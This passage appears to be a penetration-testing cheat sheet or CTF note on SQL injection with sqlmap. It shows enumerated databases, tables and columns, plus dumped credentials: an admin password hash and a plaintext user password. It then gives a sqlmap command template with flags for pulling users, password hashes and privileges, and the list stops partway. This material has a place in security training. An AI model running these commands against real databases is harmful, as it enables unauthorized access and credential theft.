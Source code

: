 # Documentation
```
# var=''
# echo -n $var | sed 's/,/\n/g'
available databases [2]:
[*] Staff
[*] users

Database: Staff
[2 Tables]
StaffDetails
Users

Database: Staff
Table: Users
[3 Columns]
Password
UserID
Username

# Dump column entries
Database: Staff
Table: Users
[Columns: Username:Password]
admin:856f5de590ef37314e7c3bdf6f8a66dc


Database: users
[1 Table]
UserDetails

Database: users
Table: UserDetails
[6 Columns]
id
firstname
lastname
username
password
reg_date


# Dump column entries
Database: users
Table: UserDetails
[Columns: username:password]
marym:3kfs86sfd
```

# SQLMAP 
## Internal Data
- Get internal data
	```
	sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap -p username --<option>
	--current-user #Get current user
	--is-dba #Check if current user is Admin
	--hostname #Get hostname
	--users #Get usernames od DB
	--passwords #Get passwords of users in DB
	--privileges #Get privileges
	
